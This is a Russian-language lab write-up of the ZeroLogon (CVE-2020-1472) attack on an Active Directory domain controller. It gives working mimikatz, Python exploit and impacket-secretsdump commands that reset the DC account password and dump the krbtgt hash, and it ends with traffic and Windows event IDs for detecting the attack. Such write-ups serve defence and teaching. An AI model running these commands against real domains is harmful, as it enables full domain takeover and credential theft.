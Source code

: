 > [!important]  
> Уязвимость CVE-2020-1472 (ZeroLogon) позволяет неаутентифицированному атакующему удаленно получить права администратора домена. За счет ошибки в реализации протокола шифрования AES-CFB8 в Netlogon Remote Protocol (MS-NRPC) атакующий, имеющий доступ по сети к контроллеру домена, может эскалировать свои привилегии и изменить пароль учетной записи контроллера домена в AD. После этого атакующий может авторизоваться на DC с правами SYSTEM и получить полный доступ к базе Active Directory (сбросить пароли администраторов домена, или любые другие действия в AD).  

# Теория

Для реализации уязвимости Zerologon атакующему нужно установить соединение через Netlogon (используются порты **RPC** локатора **TCP/135**, динамический диапазон RPC и протокол SMB по порту TCP/445) с помощью определенной последовательности, начинающейся с нулей. Уязвимость в Netlogon позволяет выдать себя за легитимный компьютер домена, а эскалация привилегий позволяет сменить пароль аккаунта DC.

В контексте выполнения атаки, аутентификация происходит по протоколу RPC_NETLOGON и представляет собой следующий алгоритм:

1. _Запрос NetrServerReqChallenge с Client Challenge: 0000000000000000 к компьютеру DC_TEST_
2. _Ответ NetrServerReqChallenge с Server Challenge от DC_TEST_
3. _Запрос NetrServerAuthenticate3 с Client Crenedtials: 0000000000000000 к DC_TEST_
4. _Ответ NetrServerAuthenticate3 с Return Code: STATUS_SUCCESS или STATUS_ACCESS_DENIED_

![](../../../Attachments/image.png)

В конечном счете, таких итераций будет ≤ 256, одна из которых позволит создать шифр-текст, состоящий только их одних нулей.

После успешного прохождения аутентификации (**Return Code: STATUS_SUCCESS**), меняется пароль, алгоритм смены которого выглядит следующим образом:

1. _Запрос NetrServerPasswordSet2 c желаемым паролем_
2. _Ответ NetrServerPasswordSet2 с уведомлением об успешном изменении пароля_

![](../../../Attachments/image_1.png)

Если подытожить, то общая схема атаки выглядит так:

![](../../../Attachments/image_0.png)

Кстати, поскольку Timestamp = 0, то в ответе на аутентификацию получим 1 января 1970 года:

![](../../../Attachments/image_2.png)

# Практика

Есть 2 способа реализации атаки: **локальный** и **удаленный**.

В качестве локального вектора, используется mimikatz, а в качестве удаленного- общеизвестные эксплоиты.

## Локальная атака

Итак, для проведения атаки локально, воспользуемся mimikatz, в функционал которого был добавлен модуль zerologon.

`lsadump::zerologon /target:dc_test.test.local /account:dc_test$ /exploit /null`

![](../../../Attachments/image_3.png)

Отлично, пароль для УЗ домен контроллера сброшен. Теперь, например, можно провести атаку DC SYNC:

`lsadump::dcsync /domain:test.local /dc:dc_test.test.local /user:krbtgt /authuser:dc_test$ /authpassword:"”`

![](../../../Attachments/image_4.png)

NT хэш **krbtgt** успешно получен.

## Удаленная атака

В качестве эксплоита, использовал реализацию от **riskense**: [https://github.com/risksense/zerologon](https://github.com/risksense/zerologon)

При использования именно данного эксплойта, достаточно лишь данной команды:

`python3 set_empty_pw.py DC_TEST 192.168.1.1`

![](../../../Attachments/image_5.png)

Также проведем атаку DC SYNC, но в этот раз с использованием хэша:  
  
`impacket-secretsdump -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'TEST/DC_TEST$@192.168.1.1'`

![](../../../Attachments/image_6.png)

_Обратите внимание, что хэш пустого пароля действительно совпадает с хэшом УЗ компьютера._

Таким образом, мы смогли сбросить пароль и, по сути, скомпрометировать домен.

# Артефакты

## Трафик

Отличительной особенностью выполненной атаки служит большое количество трафика с попытками аутентификации по протоколу RPC_NETLOGON и однотипным содержанием:

![](../../../Attachments/image_7.png)

![](../../../Attachments/image_8.png)

![](../../../Attachments/image_9.png)

![](../../../Attachments/image_10.png)

![](../../../Attachments/image_11.png)

В конечном счете, увидим STATUS_SUCCESS

![](../../../Attachments/image_12.png)

![](../../../Attachments/image_13.png)

![](../../../Attachments/image_14.png)

![](../../../Attachments/image_13.png)

![](../../../Attachments/image_15.png)

![](../../../Attachments/image_16.png)

Поскольку наш пароль- пустая строка, то NT хэш пароля будет принимать значение `:31d6cfe0d16ae931b73c59d7e0c089c0`

![](../../../Attachments/image_17.png)

![](../../../Attachments/image_18.png)

## События Windows
Основными артефактами проведенной атаки из журнала событий Windows служат:
* 5805 - _Не удалось выполнить проверку подлинности для сеанса компьютера kali (в случае удалено проведенной атаки). Произошла следующая ошибка:  Отказано в доступе.
* 5723 - *Не удалось установить сеанс с компьютера "mimikatz" (в случае локальной атаки), так как указанная им доверительная учетная запись "some_account" отсутствует в базе данных.*
* 4742 - *Была изменена учетная запись компьютера.* Здесь стоит учитывать AccountName (учетка домен контроллера).
* 5823 - *Система успешно сменила свой пароль на контроллере домена.* Здесь артефактом является хост контроллера домена в параметре Computer.

P.S. Если вы тоже любите сначала делать, а потом думать, то сбросить пароль от УЗ хоста можно командой `Reset-ComputerMachinePassword` :)